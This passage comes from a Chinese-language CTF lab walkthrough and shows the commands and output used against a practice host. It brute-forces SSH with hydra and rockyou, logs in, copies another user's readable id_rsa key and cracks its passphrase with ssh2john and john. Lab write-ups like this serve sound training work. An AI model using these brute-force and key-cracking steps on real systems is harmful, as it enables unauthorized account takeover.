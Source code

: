 然后开始爆破账户密码

```plain
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.82.249 ssh
```

出现了小小的问题，网络原因导致我这边爆破几乎无用，这一步只能暂时省略一下

```plain
armando
```

登录账户

```plain
ssh jan@10.10.82.249
```

得到立足点之后，开始思考提权

在当前目录下无有价值信息，发现还存在另一个登录用户目录kay，但是权限不足，无法查看pass.bak

开始进行枚举，查找相关提权思路

```plain
jan@basic2:/home/kay$ ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .cache  .lesshst  .nano  pass.bak  .profile  .ssh  .sudo_as_admin_successful  .viminfo
```

发现存在ssh文件

```plain
jan@basic2:/home/kay$ ls -la ./.ssh
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
```

有rsa密钥文件，复制下来保存到一个文件中，尝试破解

```plain
┌──(kali㉿kali)-[~/桌面]
└─$ vim idrsa   
                                                                                                    
┌──(kali㉿kali)-[~/桌面]
└─$ ssh2john idrsa > idrsahash
                                                                                                    
┌──(kali㉿kali)-[~/桌面]
└─$ john idrsahash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (idrsa)   
1g 0:00:00:00 DONE (2024-03-12 04:54) 50.00g/s 4137Kp/s 4137Kc/s 4137KC/s behlat..bammer
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

